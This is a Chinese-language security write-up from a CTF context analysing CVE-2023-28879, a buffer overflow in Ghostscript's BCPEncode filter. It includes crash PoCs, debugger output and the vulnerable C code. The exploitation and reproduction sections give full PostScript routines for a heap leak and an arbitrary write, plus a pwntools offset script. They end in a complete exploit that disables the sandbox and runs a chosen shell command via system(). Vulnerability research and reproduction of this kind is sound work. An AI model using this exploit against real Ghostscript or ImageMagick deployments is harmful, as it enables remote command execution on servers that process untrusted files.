

# Artifex Software Ghostscript 漏洞分析之 CVE-2023-28879 - 先知社区

Artifex Software Ghostscript 漏洞分析之 CVE-2023-28879

- - -

# 漏洞分析之 CVE-2023-28879

realworld ctf 体验赛上出了一道利用 CVE-2023-28879 的题目，借这个机会复现学习一下这个 CVE

## 漏洞描述

Artifex Software Ghostscript 是美国 Artifex Software 公司的一款开源的 PostScript 解析器。

Artifex Ghostscript 10.01.0 及之前版本中，如果写入缓冲区的数据比总长度少一个字节，则尝试写入转义字符，导致两个字节被写入。攻击者可通过泄露堆中 path\_control\_active 地址，覆写无效字节以禁用沙箱，进而通过 PostScript 的%pipe%执行任意命令。该漏洞影响 BCPEncode, BCPDecode, TBCPEncode, TBCPDecode 组件。

ImageMagic 等程序在使用 ghostscript 处理用户可控的 PostScript 文件时，可能导致远程命令执行。

## 影响范围

Ghostscript@(-∞, 10.01.1)

ghostscript@(-∞, 10.0.0~dfsg-11)

## 漏洞分析

参考文章：[Shell in the Ghost：Ghostscript CVE-2023-28879 文章 - Almond Offensive 安全博客](https://offsec.almond.consulting/ghostscript-cve-2023-28879.html)

首先根据文章有如下 `PostScript` 导致 `Ghostscript` 崩溃

```plain
(){} /zlibEncode filter /BCPEncode filter /LZWEncode filter /ASCII85Encode filter /ASCIIHexEncode filter /PSStringEncode filter /ASCII85Encode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /ASCII85Encode filter /ASCII85Encode filter /ASCIIHexEncode filter /PSStringEncode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /BCPEncode filter /ASCIIHexEncode filter /PSStringEncode filter /MD5Encode filter closefile
```

在 gdb 中，崩溃如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202405-4b687928-bea1-1.png)

可以发现他造成了函数返回地址指向了一个无效的地址。

另一个 poc 注入如下：

```plain
() (1337leet) /FlateEncode filter /ASCII85Encode filter dup /TBCPEncode filter rootfont /CCITTFaxEncode filter rootfont /zlibEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCII85Encode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /PSStringEncode filter /SHA256Encode filter closefile
```

这个 poc 导致了 memcpy 到运行到一个随机的地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202412-4f8b9ab2-bea1-1.png)

可以发现崩溃文件似乎在关闭文件之前对字符串重复调用运算符“filter”。根据[官方文档](https://www.adobe.com/jp/print/postscript/pdfs/PLRM.pdf#[{%22num%22%3A716%2C%22gen%22%3A0}%2C{%22name%22%3A%22XYZ%22}%2Cnull%2C616%2Cnull])，过滤器只是一种“特殊类型的文件对象”，可以放在另一个文件、字符串或过程（PostScript 相当于一个函数）之上。根据所使用的筛选器，将写入或读取文件、字符串或过程。在这种情况下，崩溃文件仅使用“编码”过滤器，因此字符串变量将被写入，这在文档中称为“数据目标”。

例如，下面创建一个文件对象。写入此文件的任何字符串将首先使用 SHA256 算法进行哈希处理，然后对结果进行十六进制编码，最后写入数据目标（此处为字符串"aaaa"）：

```plain
(aaaa) /ASCIIHexEncode filter /SHA256Encode filter
```

基本上，崩溃文件通过使用 SHA256 或 MD5 算法对空字符串进行哈希运算，然后创建数据，并将数据传递给其他多种编码算法。在最后将结果写入字符串之前，这些算法会对数据进行转换——相应地放大或减少数据量。然后，使用 closefile 关闭创建的文件（这也强制写入缓冲的数据）。那么很有可能其中一个算法包含漏洞

我们可以查看 base/stream.c 文件代码中的函数 swritebuf。每次调用过滤器时，都会创建一个流数据结构，并将其附加到现有的流数据结构上。这个流结构在 base/stream.h 中进行了描述。它包含一个指向下一个流的指针，一个函数指针列表，指示在文件上调用特定运算符时应调用哪个函数，以及一个描述应读取和写入的缓冲区数据的结构。在这两种情况下（读取和写入），该结构包括一个指向缓冲区中当前位置的指针，以及一个指向不应越过的极限的指针。

此外，swritebuf 函数包含方便的调试打印语句，可以通过在调试模式下编译 Ghostscript 并传递-Zs 开关来调用这些语句。使用此调试开关启动 Ghostscript 并读取调试消息显示了一些内容：

```plain
./gs -Zs
[...]
GS>[s]after write 0x5591c01675e8, nr=0, nw=0, end=0,status=0                                          
[s]read process 0x5591c0167060, nr=0, nw=1024,eof=0                                                   
(){} /zlibEncode filter /BCPEncode filter /LZWEncode filter /ASCII85Encode filter /ASCIIHexEncode filter /PSStringEncode filter /ASCII85Encode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /ASCII85Encode filter /ASCII85Encode filter /ASCIIHexEncode filter /PSStringEncode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /BCPEncode filter /ASCIIHexEncode filter /PSStringEncode filter /MD5Encode filter closefile   
[...]
[s]write process 0x5591c044cf48(LZWDecode state), nr=2047, nw=236, end=0
[s]after write 0x5591c044cf48, nr=1605, nw=4, end=0, status=1
[s]moving ahead, depth = 7
[s]write process 0x5591c044c4f8(stream_state), nr=2044, nw=1549, end=0
[s]after write 0x5591c044c4f8, nr=549, nw=4294967295, end=0, status=1
[s]moving ahead, depth = 8
[s]write process 0x5591c017ced8(zlibEncode/Decode state), nr=2049, nw=126, end=0
[s]after write 0x5591c017ced8, nr=0, nw=126, end=0, status=0
[s]moving back, depth = 7
[s]write process 0x5591c044c4f8(stream_state), nr=549, nw=4294967295, end=0
[s]after write 0x5591c044c4f8, nr=1722991892, nw=4294966726, end=0, status=0
[s]moving back, depth = 6
[s]write process 0x5591c044cf48(LZWDecode state), nr=1605, nw=1669303638, end=0
[s]after write 0x5591c044cf48, nr=1605, nw=1669303638, end=0, status=1
Segmentation fault
```

可以查看 swritebuf 函数以了解调试语句的输出。PostScript 程序每次写入文件时，都会初始化当前执行流以及读写指针。当然也有特殊情况，如果它是第一个执行流（那么它将从用户输入中读取）或最后一个执行流（它将被写入最终的文件）。否则，读指针初始化为前一个执行流，写指针初始化为下一个执行流。用于中间流的缓冲区大小是 0x800。

有了这些信息，if\_debug5m 语句将变得更加清晰。在写入之前，利用以下调试语句：

```plain
if_debug5m('s', s->memory,
            "[s]write process "PRI_INTPTR"(%s), nr=%u, nw=%u, end=%d\n",
            (intptr_t)curr,
            gs_struct_type_name(curr->state->templat->stype),
            (uint)(pr->limit - pr->ptr),
            (uint)(pw->limit - pw->ptr), end);
```

gs\_struct\_type\_name（curr->state->template->stype）表示正在使用的过滤器的名称，（uint）（pr->limit-pr->ptr）可以翻译为“将读取多少个字符”，（uiint）（pw->limit-paw->ptr。

然后，通过查找当前流状态中的函数指针来调用过滤器进程=（\*curr->procs.process）（curr->state，pr，pw，end）；

然后，在过滤过程之后，会出现以下调试输出：

```plain
if_debug5m('s', s->memory,
        "[s]after write "PRI_INTPTR", nr=%u, nw=%u, end=%d, status=%d\n",
        (intptr_t) curr, (uint) (pr->limit - pr->ptr),
        (uint) (pw->limit - pw->ptr), end, status);
```

同样，（pr->limit-pr->ptr）含义便是**还需读取字符数**，（pw->limit-paw->ptr 表示剩余空间。很容易看出是 stream\_state 过滤器出现了问题，因为 debug 显示程序还有很多剩余空间：

```plain
[s]write process 0x5591c044c4f8(stream_state), nr=2044, nw=1549, end=0
[s]after write 0x5591c044c4f8, nr=549, nw=4294967295, end=0, status=1
```

对于 BCPEncode 和 TBCPEncode 滤波器，gs\_struct\_type\_name 都等于 stream\_state。PostScript 文档中没有描述这些过滤器，但 Ghostscript 网站解释说，它们都是分别实现 Adobe 二进制通信协议和 Adobe 标记二进制通信协议的非标准过滤器。这些可以在 base/sbcp.c 中找到。

它们都声明了一个要转义的字节列表，然后调用 s\_xBCPE\_process 函数，如下所示：

```plain
static int
s_xBCPE_process(stream_state * st, stream_cursor_read * pr,
                stream_cursor_write * pw, bool last, const byte * escaped)
{
    const byte *p = pr->ptr; 
    const byte *rlimit = pr->limit;
    uint rcount = rlimit - p;
    byte *q = pw->ptr;
    uint wcount = pw->limit - q;
    const byte *end = p + min(rcount, wcount);

    while (p < end) {
        byte ch = *++p;

        if (ch <= 31 && escaped[ch]) {
            if (p == rlimit) {
                p--;
                break;
            }
            *++q = CtrlA;
            ch ^= 0x40;
            if (--wcount < rcount)
                end--;
        }
        *++q = ch;
    }
    pr->ptr = p;
    pw->ptr = q;
    return (p == rlimit ? 0 : 1);
}
```

在该函数中，将读取的每个字符与转义字符列表进行比较。如果它不在列表中，则简单地按原样写入。如果它在转义列表中，将执行一些检查。首先检查（p=rlimit）确保读取指针 p 不在正在读取的缓冲区的最后一个字符处。如果是，则读取指针递减，循环退出。如果不是，它将写入 CtrlA（即 0x01），增加写入指针，并用 0x40 异或当前字符。在最后一次检查之后，它写入当前字符（异或字符），并再次增加写入指针。如果接收的缓冲区的空间小于筛选器正在读取的缓冲区，则 if（--wcount<rcount）检查尝试通过递减结束限制指针来确认此双写入。之后，读取和写入指针被更新，并且函数返回。

通过代码、调试语句和一些调试，错误的根本原因变得更加清楚。似乎，在 s\_xBCPE\_process 函数之后，pw->ptr 被更新为大于 pw->limit 的值，导致（uint）（pw->limit-pw->ptr）溢出。

以下 PostScript 将导致溢出：

```plain
/writtenTo {4 string} def % declare an empty string of size 4
/theFilter writtenTo /BCPEncode filter def % declare a filter, using the BCPEncode that writes to the string
/readsFrom <414141134141> def % declare a string of size 6: 5 'A's and 0x13, which is an escaped character
theFilter readsFrom writestring % write the string to the filter
theFilter flushfile % flush the file for the write to happen
```

创建一个比我们试图读取的字符串更小的要写入的字符串是通过 p=rlimit 来进行检查的。将缓冲区填充到比已满少一个字节，然后传递转义字符会导致两个 q 增量。这就导致程序绕过了对 p 的长度检查

```plain
./gs -Zs -f poc.ps
[...]
[s]init 0x560dc8218ba8, buf=0x560dc8218d20, len=2048, modes=2
[s]write process 0x560dc8218ba8(stream_state), nr=6, nw=4, end=0
[s]after write 0x560dc8218ba8, nr=2, nw=4294967295, end=0, status=1
[s]moving ahead, depth = 1
[s]write process 0x560dc82125a8(stream_state), nr=5, nw=0, end=0
[s]after write 0x560dc82125a8, nr=5, nw=0, end=0, status=-2      
[s]unwinding
[s]write process 0x560dc7f4f668(stream_state), nr=15, nw=0, end=0
Error: /ioerror[s]after write 0x560dc7f4f668, nr=0, nw=0, end=0, status=0  
[...]
```

写入后，nw 变量（即 pw->limit-pw->ptr）溢出。对该流的下一次写入应该会导致越界写入，但在这种情况下，这样做会引发 io error，表明文件已关闭，因为没有更多的空间可写入。

## 漏洞利用

模糊器发现的错误通过链接多个过滤器绕过 ioerror 限制。正如本文前面所说，过滤器创建的流的最大缓冲区大小为 0x800。如果输入字符串大于 2048 个字符，则会填充第一个流的缓冲区，并调用下一个流。如果第二个流能够处理所有数据，则将再次调用第一个流以获得更多输入。如果第二个流缓冲区也被数据填充，则会调用第三个流，依此类推。这种行为可以在调试消息中看到：

```plain
if_debug1m('s', strm->memory, "[s]moving ahead, depth = %d\n", depth);

if_debug0m('s', s->memory, "[s]unwinding\n");

if_debug1m('s', s->memory, "[s]moving back, depth = %d\n", depth);
```

它还提供了一种利用漏洞的好方法。通过链接两个过滤器以写入一个大字符串并给出大于 2048 的输入，可能会破坏 `pw->ptr` ，使其大于 `pw->limit` 。然后将调用第二个过滤器，将数据输出到字符串，只要字符串长度足够大可以包含所有数据，就不会发生 ioerror。当返回到第一个流时，它的调用便不会返回到 `pw->limit` 的 `pw->ptr` 指针，并开始覆盖一个有趣的结构。

堆中的下一个结构实际上是当前的流结构，这意味着有许多有趣的值要覆盖。例如，覆盖 procs 结构中的一个函数指针以控制程序控制流。我使用 BCPEncode 作为易受攻击的过滤器，使用 NullEncode 作为第二个过滤器。NullEncode 创建一个流，只需移动数据而不进行任何更改就能达成效果。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202510-71d9ea38-bea1-1.png)

由于大字符串仍未满，因此在过滤器中再次写入将调用覆盖的函数指针：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202454-685400f2-bea1-1.png)

但是还有一个问题，system 的函数地址我们并不知道。不过我们可以找到这样一个结构：在 procss 结构之前，有一个读和写功能，这便可以从堆中泄漏 libc 地址并调用。有了这些信息，利用方法就相当简单了。

作为一种完整的语言，PostScript 提供了在磁盘上读写文件的方法。它甚至可以通过写入%pipe%设备来调用子流程。显然，由于 Ghostscript 经常处理来自不可信来源的文件，因此它调用了一个沙箱，阻止 PostScript 程序读取或写入某个白名单之外的文件。此验证是在 base/gpmisc.c 中的 gp\_validate\_path\_len 函数中完成的。可以发现前几行是用来检查沙箱是否处于活动状态：

```plain
/* mem->gs_lib_ctx can be NULL when we're called from mkromfs */
if (mem->gs_lib_ctx == NULL ||
    mem->gs_lib_ctx->core->path_control_active == 0)
    return 0;
```

mem 变量实际上是复杂上下文结构的一个子结构，它保留了当前执行状态中的所有信息。`path_control_active`变量可在`i_ctx_p->memory->current->gs_lib_ctx->core->path_control_active`中找到。上下文结构也位于堆中，因此泄漏堆指针应该足以定位 path\_control\_active 变量。通过任意写入，可以覆盖此变量，而不会导致进程崩溃，然后使用%pipe%语句即可调用任何命令。

从堆中获取泄漏很简单。在流结构中，覆盖游标读取指针（curr->cursor->r->ptr）将强制下一个流复制所有数据，直到该指针为止。但是，在 s\_xBCPE\_process 函数的最后一行（以及稍后在 stream\_compact 函数中），此指针会被覆盖到其先前的值。然后，下一个字节流将数据复制到 stdout：

```plain
% - -> a long string
/createOverflow {
    ()
    1 1 2045 {pop <41> concatstrings}for
    <1313> concatstrings %escaped char
    1 1 15  {pop <42> concatstrings} for
}def
% (leak) -> leak as hexadecimal string 
/leakAsString{
    /myString 16 string def
    /asciiToHexFilter myString /ASCIIHexEncode filter def
    asciiToHexFilter exch writestring
    asciiToHexFilter flushfile
    myString
}def 
% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
    /leakBuffer 5000 string def
    /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
    <4848484848484848> concatstrings % s->cursor->r->ptr
    leakMemoryFilter exch writestring
    leakMemoryFilter flushfile
    /leak leakBuffer 2176 8 getinterval def
    leak
    reverse
} def
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202535-81185e58-bea1-1.png)

通过这次泄漏，可以计算`path_control_active`变量的地址。泄漏和`path_control_active`变量之间的偏移量随着作为参数传递给 Ghostscript 的各种选项而变化，但如果传递相同的参数，则保持不变。

以类似的方式，可以通过用任意地址写写入后门地址来实现任意写入：

```plain
% what where -> -
/writewhatwhere {
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
    <4848484848484848> concatstrings % s->cursor->r->ptr 
    exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
    <4444444444444444> concatstrings % s->cursor->w->limit
    <4545454545454545> concatstrings % s->cbuf.  
    /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
    openWriteFilter exch writestring
    openWriteFilter flushfile
    openWriteFilter exch writestring
}def
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202544-865a3c10-bea1-1.png)

下一次写入损坏的流将导致 sputs 函数写入所选地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202553-8b54f110-bea1-1.png)

这样我们便可以在`path_control_active`地址上写入一堆空字节，覆盖沙箱导致沙箱被禁用，这样我们就可以实现任意命令执行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202558-8e9b50d0-bea1-1.png)

注：由于不能从 `s_xBCPE_process` 函数的转义列表中写入字符（至少在这个 POC 中不能），因此我们可能需要重新启动该漏洞攻击几次，才能获得没有这些字节的堆地址。

## 漏洞复现

rwctf 提供了漏洞压缩包

```plain
tar xzvf ghostscript-10.01.0.tar.gz 
cd ./ghostscript-10.01.0 
./configure 
make
make install
```

按照以上顺序执行命令即可

文件在./bin/目录下

在 github 上找到 poc

[https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript\_rce](https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce)

利用 getoffset.py 生成 poc 文件

```plain
#!/usr/bin/env python

# python offset.py /path/to/gs/binary

# or

# python offset.py /path/to/libgs

# thanks to Laluka for the help

from pwn import *
from sys import argv

if len(argv) != 2:
    print("Usage: python {argv[0]} /path/to/gs_bin or libgs")
    exit(1)


elf_path = argv[1]

# Load the ELF file

elf = ELF(elf_path)

# Get the address of the PLT

init_addr = elf.get_section_by_name('.init').header.sh_addr
print(".init start address: 0x{:x}".format(init_addr))

# Get the address of system@plt

system_plt_addr = elf.plt['system']
print("system@PLT address: 0x{:x}".format(system_plt_addr))
libc_plt_offset = system_plt_addr - init_addr
print("Offset from .init start addr to system@plt: 0x{:x} == {:d}".format(libc_plt_offset, libc_plt_offset))

f_addr_s_std_noseek = elf.functions["s_std_noseek"]
print("f_addr_s_std_noseek address: 0x{:x}".format(f_addr_s_std_noseek.address))
f_addr_s_std_noseek_offset = f_addr_s_std_noseek.address - init_addr
print("Offset from .init start addr to f_addr_s_std_noseek: 0x{:x} == {:d}".format(f_addr_s_std_noseek_offset, f_addr_s_std_noseek_offset))

with open("final-poc.ps.template", "r") as f:
    final_file = f.read().strip()

final_file = final_file.replace("F_ADDR_S_STD_NOSEEK_OFFSET", str(f_addr_s_std_noseek_offset))
final_file = final_file.replace("LIBC_PLT_OFFSET", str(libc_plt_offset))

with open("final-poc.ps", "w") as f:
    f.write(final_file)

print("Now try to upload the final-poc.ps")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202654-afe41c04-bea1-1.png)

生成 poc 如下

```plain
10000000 setvmthreshold
% (a) (b) -> (ab) 
/concatstrings { exch dup length 
 2 index length add string 
 dup dup 4 2 roll copy length
 4 -1 roll putinterval
} bind def

% (aabb) -> (bbaa)
/reverse{
 /str exch def
 /temp str 0 get def
 /i 0 def
 str length 2 idiv{
  /temp str i get def
  str i str str length i sub 1 sub get put
  str str length i sub 1 sub temp put
  /i i 1 add def
 }repeat
 str 
}def
%offset addr -> addr+offset
/addOffset{
 exch (16#) exch concatstrings
 cvi
 add
 16 16 string cvrs
}def
% addr offset -> addr-offset
/subOffset{
 exch (16#) exch concatstrings
 cvi
 exch
 sub
 16 16 string cvrs
}def
% - -> a long string
/createOverflow {
 ()
 1 1 2045 {pop <41> concatstrings}for
 <1313> concatstrings %escaped char
 revision 9560 ge 
 {1 1 15 {pop <42> concatstrings} for}
 {1 1 23 {pop <42> concatstrings} for}
 ifelse
}def

/leakAsString{
 /myString 16 string def
 /asciiToHexFilter myString /ASCIIHexEncode filter def
 asciiToHexFilter exch writestring
 asciiToHexFilter flushfile
 myString
}def


% (0xstring) --> ascii string
/stringToAddress{
 % from 0x231 to 0x0231, otherwise the filter understand 0x23 then 0x10
 dup length 2 mod 1 eq {(0) exch concatstrings}if
 /ASCIIHexDecode filter
 8 string readstring
 pop
 reverse
 % from 0xdeadbeef to 0x00000000deadbeef
 {dup length 8 eq {exit} {<00> concatstrings }ifelse}loop 
}def
% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
 /leakBuffer 10000 string def
 /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
 createOverflow
 <6964004343434343> concatstrings % s->templat (your payload goes here)
 <4444444444444444> concatstrings % s->memory
 <4545454545454545> concatstrings % s->report_error
 <4646464646464646> concatstrings % s->min_left
 1 1 80{pop <47> concatstrings }  for% s->error_string
 <4848484848484848> concatstrings % s->cursor->r->ptr
 leakMemoryFilter exch writestring
 leakMemoryFilter flushfile
 revision 9560 ge 
 {/leak leakBuffer 2176 8 getinterval def}
 {/leak leakBuffer 2184 8 getinterval def}
 ifelse
 leak
 reverse
} def


% what where -> -
/writewhatwhere {
 createOverflow
 <4343434343434343> concatstrings % s->templat
 <4444444444444444> concatstrings % s->memory
 <4545454545454545> concatstrings % s->report_error
 <4646464646464646> concatstrings % s->min_left
 1 1 80 {pop <47> concatstrings }  for% s->error_string
 <4848484848484848> concatstrings % s->cursor->r->ptr 
 exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
 <4444444444444444> concatstrings % s->cursor->w->limit
 <4545454545454545> concatstrings % s->cbuf.  
 /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
 openWriteFilter exch writestring
 openWriteFilter flushfile
 openWriteFilter exch writestring
}def

/readProc{
    leakMemory
    leakAsString
    dup (Found leak: 0x) exch concatstrings (\n) concatstrings print
    revision 9560 ge 
    {dup 375 subOffset} %start of bcpe stream}
    {dup 383 subOffset} 
    ifelse
    dup (BCPE stream: 0x) exch concatstrings (\n) concatstrings print
    dup 111 addOffset %start of read cursor-1
    dup (Start of read cursor -1 : 0x) exch concatstrings (\n) concatstrings print
    dup 81 addOffset %start of proc
    dup (Proc 0x) exch concatstrings (\n) concatstrings print
    dup 64 addOffset
    stringToAddress exch stringToAddress exch concatstrings
    exch stringToAddress
    writewhatwhere
    leakMemoryFilter () writestring leakMemoryFilter flushfile
    leakBuffer
    revision 9560 ge
    {2191 8 getinterval reverse leakAsString}
    {2199 8 getinterval reverse leakAsString}
    ifelse    
    dup (Found leak proc: 0x) exch concatstrings (\n) concatstrings print
}def 

readProc
1154176 subOffset
dup (Base r-x: 0x) exch concatstrings (\n) concatstrings print
6164 addOffset
dup (system@plt: 0x) exch concatstrings (\n) concatstrings print
exch 231 addOffset
dup (process : 0x) exch concatstrings (\n) concatstrings print
stringToAddress exch stringToAddress exch
writewhatwhere
leakMemoryFilter (aa) writestring leakMemoryFilter flushfile
```

并在此行修改想要执行的命令（ascall 码），此处命令为 id

```plain
<6964004343434343> concatstrings % s->templat (your payload goes here)
```

运行 gs 文件并输入 poc 即可执行漏洞利用（system("id")）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129202640-a7c9a016-bea1-1.png)

## 漏洞修复

官方发布了补丁和[公告](https://artifex.com/news/critical-security-vulnerability-fixed-in-ghostscript)。用户可通过常规渠道更新应用即可修复（可用性可能因发行版而异）。

## 参考

[Shell in the Ghost：Ghostscript CVE-2023-28879 文章 - Almond Offensive 安全博客](https://offsec.almond.consulting/ghostscript-cve-2023-28879.html)  
[https://nvd.nist.gov/vuln/detail/CVE-2023-28879](https://nvd.nist.gov/vuln/detail/CVE-2023-28879)  
[https://bugs.ghostscript.com/show\_bug.cgi?id=706494](https://bugs.ghostscript.com/show_bug.cgi?id=706494)  
[https://bugs.ghostscript.com/attachment.cgi?id=23886](https://bugs.ghostscript.com/attachment.cgi?id=23886)
